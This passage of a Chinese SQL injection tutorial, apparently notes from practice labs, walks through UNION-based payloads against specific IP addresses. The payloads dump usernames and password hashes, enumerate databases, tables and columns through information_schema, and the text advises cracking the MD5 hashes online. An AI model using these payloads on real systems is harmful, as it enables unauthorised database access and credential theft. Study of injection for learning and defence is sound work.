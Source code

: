 ![image-20220726145307736](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145307736.png)

#### 查询指定数据

根据刚才收集的表名、列名，可以查询该表的指定数据：

```mysql
http://219.153.49.228:48354/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member
```

![image-20220726145504487](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145504487.png)

指定数据可能有多个结果，可以使用`limit x,1`（从x的位置读取1条记录），变动猜解，得到不同结果：

```mysql
http://219.153.49.228:48354/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 2,1
```

得到的密码一般为MD5，去cmd5.com碰撞一下。

![image-20220726145823634](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726145823634.png)

### 跨库查询

MYSQL 注入中首先要明确**当前注入点权限**（取决于注入点所使用的数据库用户的权限），高权限注入时有更多的攻击手法，有的能直接进行 getshell 操作。 

比如上述注入中借助的是root账户的权限进行数据库操作，若该用户具有mozhe_ Discuz_stormGroup数据库之外的操作权限，那么就可以注入其他数据库获取想要的信息。

imformation_schema除了记录有所有的表名、列名，还有所有的数据库名：

`imformation_schema.schemata`：记录所有数据库名信息的表（跨库），`schema_name`表示数据库名。

**查询的前提是用户具有相应的权限。**

#### 查询所有的数据库名

```mysql
192.168.102.130:8888/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata
```

![image-20220726155012588](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726155012588.png)

#### 查询指定数据库下的表名信息

```mysql
id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='qqyw'
```

![image-20220726155117482](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726155117482.png)

#### 查询指定表名下的列名信息

```mysql
id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='admin' and table_schema='qqyw' limit 0,1   # 当出现多个记录时，可以使用limit 0,1取第一个记录
```
